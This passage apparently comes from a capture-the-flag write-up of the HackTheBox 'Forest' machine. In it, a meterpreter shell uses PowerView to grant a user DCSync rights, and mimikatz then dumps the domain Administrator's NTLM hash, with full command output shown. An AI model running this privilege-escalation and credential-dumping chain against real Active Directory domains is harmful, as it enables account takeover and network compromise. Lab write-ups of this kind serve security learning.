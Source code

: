 {% highlight powershell %}
meterpreter > shell
Process 1224 created.
Channel 2 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\rizemon\Documents>powershell
powershell
Windows PowerShell 
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Users\peter1\Documents>Import-Module ./PowerView.ps1
Import-Module ./PowerView.ps1
PS C:\Users\peter1\Documents> Add-ObjectACL -PrincipalIdentity rizemon -Rights DCSync
Add-ObjectACL -PrincipalIdentity rizemon -Rights DCSync
{% endhighlight %}

And finally, we dump out the hashes.
{% highlight raw %}
PS C:\Users\rizemon\Documents> ./mimikatz.exe
./mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 Nov 25 2019 02:50:28
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # lsadump::dcsync /domain:htb.local /user:Administrator
[DC] 'htb.local' will be the domain
[DC] 'FOREST.htb.local' will be the DC server
[DC] 'Administrator' will be the user account

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
User Principal Name  : Administrator@htb.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000200 ( NORMAL_ACCOUNT )
Account expiration   : 
Password last change : 9/18/2019 9:09:08 AM
Object Security ID   : S-1-5-21-3072663084-364016917-1341370565-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 32693b11e6aa90eb43d32c72a07ceea6
{% endhighlight %}
